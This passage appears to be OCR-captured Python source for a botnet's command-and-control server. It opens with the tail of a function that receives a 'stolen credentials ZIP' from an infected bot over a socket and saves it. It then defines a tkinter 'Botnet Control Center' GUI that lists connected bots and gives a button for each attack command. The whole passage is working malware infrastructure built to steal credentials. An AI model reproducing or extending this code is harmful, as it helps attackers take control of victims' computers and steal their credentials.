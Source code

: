         while True:
            chunk = client_socket.recv(CHUNK_SIZE)
            if not chunk:
                return "[!] Lost connection during credential steal."
            if chunk.endswith(EOF_MARKER.encode()):
                f.write(chunk[:-len(EOF_MARKER)])
                break
            f.write(chunk)
    return f"[+] Stolen credentials ZIP saved: {save_path}"

# Main GUI class for the server
class BotnetServerGUI:
    def __init__(self, master):
        self.master = master
        master.title("Botnet Control Center")
        master.configure(bg=MAIN_BG)

        # Sidebar for bots/actions/status
        self.sidebar = tk.Frame(master, width=220, bg=SIDEBAR_BG)
        self.sidebar.pack(side="left", fill="y")
        self.sidebar.pack_propagate(False)

        tk.Label(self.sidebar, text="🕷 BOTNET", bg=SIDEBAR_BG, fg=ACCENT, font=("Segoe UI", 16, "bold"), anchor="center").pack(fill="x", pady=(18, 2))

        # List of connected bots
        tk.Label(self.sidebar, text="Connected Bots", bg=SIDEBAR_BG, fg=TEXT_COLOR, font=("Segoe UI", 12, "bold")).pack(fill="x", pady=(10, 0))
        self.bot_listbox = tk.Listbox(self.sidebar, font=FONT, bg=BTN_BG, fg=ACCENT, selectbackground=ACCENT, selectforeground=TEXT_COLOR, relief="flat", height=10, highlightthickness=0)
        self.bot_listbox.pack(fill="x", padx=10, pady=4)
        self.bot_listbox.bind("<<ListboxSelect>>", self.select_bot)
        self.bots = {}  # key: display name, value: (socket, addr, thread)
        self.selected_bot = None

        # Actions: buttons for each command
        tk.Label(self.sidebar, text="Actions", bg=SIDEBAR_BG, fg=TEXT_COLOR, font=("Segoe UI", 12, "bold")).pack(fill="x", pady=(8, 0))
        for cmd in COMMANDS:
            b = tk.Button(self.sidebar,
                          text=cmd.title(), font=FONT,
                          bg=BTN_BG, fg=TEXT_COLOR,
                          activebackground=BTN_ACTIVE_BG, activeforeground="#fff",
                          relief="flat", bd=0, highlightthickness=0,
                          command=lambda c=cmd: self.show_command_form(c))
            b.pack(fill="x", padx=15, pady=2)
